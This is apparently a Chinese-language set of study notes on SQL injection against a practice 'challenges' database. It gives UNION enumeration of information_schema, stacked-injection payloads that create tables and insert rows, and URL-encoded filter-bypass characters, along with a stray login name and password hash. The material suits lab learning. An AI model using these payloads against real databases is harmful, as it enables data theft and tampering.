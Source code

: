 - 在查询出数据库名或者信息后，根据得到的数据库名进入mysql的`information_schema.tables`信息表中查询已知数据库的表中列的信息
```sql
1)   union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges' --
闭合  查询函数         连接字段     表名               查询信息试图表                          数据库名称
 
```

```
id = -1 union select 
```

- `查询整个数据库中所有库和所对应的表信息`

```sql
select table_schema,group_concat(table_name)
from  information_schema.tables
group  by table_schema
```
Your Login name:NpQJ25CiVWtFNtrNlOw4GlTm
Your Password:b7490cbbbd5cfd081d8ec1930914a677




## **注入之堆叠注入**
就是在注入语句中加一个`;`然后再加入任意mysql语句即可。

列-(新建成功表)
：
```
select * from users where id=1;create table test like users;
```

**(查询数据)**
```
select * from users where id=1;select 1,2,3;
```

**[修改数据]**
```
select * from users where id=1;insert into users(id,username,password)
values('100','new','new');
```
```
?id=0" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges' --+

?id=0" union select 1,group_concat(column_name),3 from information_schema.columns where table_name='la5spfxomc' --+


?id=0" union select 1,group_concat(secret_D2E9),group_concat(sessid) from challenges.la5spfxomc --+
      
```

## 绕过空格(注释符 /**/，%a0)

两个空格代替一个空格，用Tab代替空格，%a0=空格：
```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```
  最基本的绕过方法，用注释替换空格：
```
/*  注释 */

```

